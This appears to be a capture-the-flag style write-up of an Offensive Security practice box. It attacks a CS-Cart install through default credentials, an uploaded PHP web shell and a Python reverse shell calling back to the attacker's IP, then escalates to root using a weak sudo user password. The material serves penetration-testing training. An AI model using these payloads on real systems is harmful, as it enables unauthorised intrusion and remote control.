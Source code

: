 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Performing a `nmap` scan to identifiy the attack surface of the target.

## port scan
```bash
$ nmap -p- -sV 192.168.126.39
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-11 09:39 EST
Nmap scan report for 192.168.126.39
Host is up (0.026s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
995/tcp open  ssl/pop3    Dovecot pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.99 seconds
```

## port 80 (web server)
Software `cs-cart` is used.

---

# exploitation

## default login
> The installed software `cs-cart` has an admin login under `admin.php` and uses weak credentials (`admin:admin`)
{: .prompt-info }

## exploit search
```bash
$ searchsploit cs-cart       
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CS-Cart - Multiple SQL Injections                                                                                                                                                                         | php/webapps/27030.txt
CS-Cart 1.3.2 - 'index.php' Cross-Site Scripting                                                                                                                                                          | php/webapps/31443.txt
CS-Cart 1.3.3 - 'classes_dir' LFI                                                                                                                                                                         | php/webapps/48890.txt
CS-Cart 1.3.3 - 'classes_dir' Remote File Inclusion                                                                                                                                                       | php/webapps/1872.txt
CS-Cart 1.3.3 - 'install.php' Cross-Site Scripting                                                                                                                                                        | multiple/webapps/14962.txt
CS-Cart 1.3.3 - authenticated RCE                                                                                                                                                                         | php/webapps/48891.txt
CS-Cart 1.3.5 - Authentication Bypass                                                                                                                                                                     | php/webapps/6352.txt
CS-Cart 2.0.0 Beta 3 - 'Product_ID' SQL Injection                                                                                                                                                         | php/webapps/8184.txt
CS-Cart 2.0.5 - 'reward_points.post.php' SQL Injection                                                                                                                                                    | php/webapps/33146.txt
CS-Cart 2.2.1 - 'products.php' SQL Injection                                                                                                                                                              | php/webapps/36093.txt
CS-Cart 4.2.4 - Cross-Site Request Forgery                                                                                                                                                                | php/webapps/36358.html
CS-Cart 4.3.10 - XML External Entity Injection                                                                                                                                                            | php/webapps/40770.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`CS-Cart 1.3.3 - authenticated RCE` looks juicy.

```
# Exploit Title: CS-Cart authenticated RCE
# Date: 2020-09-22
# Exploit Author:  0xmmnbassel
# Vendor Homepage: https://www.cs-cart.com/e-commerce-platform.html
# Tested at: ver. 1.3.3
# Vulnerability Type: authenticated RCE



get PHP shells from
http://pentestmonkey.net/tools/web-shells/php-reverse-shell
edit IP && PORT
Upload to file manager
change the extension from .php to .phtml
visit http://[victim]/skins/shell.phtml --> Profit. ...!
```

## uploading shell
`shell.php` content
```php
<?php system($_REQUEST['cmd']); ?>
```

Upload `shell.php` via file manager and change extension to `.phtml`


## check shell
### request
```http
GET /skins/shell.phtml?cmd=whoami HTTP/1.1
Host: 192.168.126.39
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### response
```http
HTTP/1.1 200 OK
Date: Fri, 11 Feb 2022 14:54:58 GMT
Server: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
X-Powered-By: PHP/5.2.3-1ubuntu6
Connection: close
Content-Type: text/html
Content-Length: 9

www-data
```

---

# post exploitation
## reverse shell
### start listener on attacker machine
```bash
$ nc -lvp 80
```

### start reverse shell
payload: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.126",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```
```http
GET /skins/shell.phtml?cmd=python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("192.168.49.126",80))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b' HTTP/1.1
Host: 192.168.126.39
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

### catch reverse shell on attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.126.39: inverse host lookup failed: Unknown host
connect to [192.168.49.126] from (UNKNOWN) [192.168.126.39] 35403
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
```

## first flag
```bash
$ cd /home
$ ls
patrick
$ cd patrick
$ ls
local.txt
$ cat local.txt
f******************************b
```

## privilege escalation
- `root` folder is readable by `www-data`
- `proof.txt` is only readable by `root`
- `root` folder contains `capture.cap` file containing a `ftp` password for `brett`
- the user `brett` is not available on the system (see `/etc/passwd`)
- `ftp` is not available on the system
- `capture.cap` is not useful
- user `patrick` is available (see `/etc/passwd`)

### weak credentials
User `patrick` uses weak credentials (`patrick:patrick`).

## escalation
`patrick` is in `sudo` group.

```bash
patrick@payday:/root$ sudo su
sudo su
root@payday:~# cat proof.txt
cat proof.txt
9******************************b
```

Pwned! <@:-)
